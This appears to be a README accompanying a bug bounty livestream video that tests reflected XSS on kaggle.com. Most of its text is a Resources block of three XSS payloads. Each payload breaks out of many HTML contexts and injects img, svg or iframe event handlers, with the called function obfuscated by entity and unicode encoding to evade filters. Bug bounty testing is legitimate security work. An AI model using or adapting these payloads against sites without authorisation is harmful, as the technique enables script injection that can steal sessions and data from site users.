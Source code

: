 # Day4 - Live Bug Bounty Hunting on Google:
[![Day4 - Live Bug Bounty Hunting on Google:](https://img.youtube.com/vi/KKjR3tiu7wE/maxresdefault.jpg)](https://youtu.be/KKjR3tiu7wE)

## Timestamps
- [`00:00:00 — Start`](https://youtu.be/KKjR3tiu7wE?t=0)
- [`00:05:31 — Checking RXSS on [kaggle.com](http://kaggle.com/)`](https://youtu.be/KKjR3tiu7wE?t=331)
- [`01:11:08 — Created advanced XSS payload`](https://youtu.be/KKjR3tiu7wE?t=4268)

## Resources
```
'"<!-->)</Title/</h1/</h2/</h3/</h4/</div/</p/</a/</font/</label/</button/</img/</ul/</ol/</li/</option/</span/</Style/</Script/</textArea/</iFrame/</noScript><IMG SrC=x OnError=&#99;&#x6f;&#x00006e;\u0066irm(1)>
'"<!-->)</Title/</h1/</h2/</h3/</h4/</div/</p/</a/</font/</label/</button/</img/</ul/</ol/</li/</option/</span/</Style/</Script/</textArea/</iFrame/</noScript><SvG OnLoAd=&#99;&#x6f;&#x00006e;\u0066irm(1)>
'"<!-->)</Title/</h1/</h2/</h3/</h4/</div/</p/</a/</font/</label/</button/</img/</ul/</ol/</li/</option/</span/</Style/</Script/</textArea/</iFrame/</noScript><iFRame SRC=x ONLoAd=&#99;&#x6f;&#x00006e;\u0066irm(1)></iframe>
```
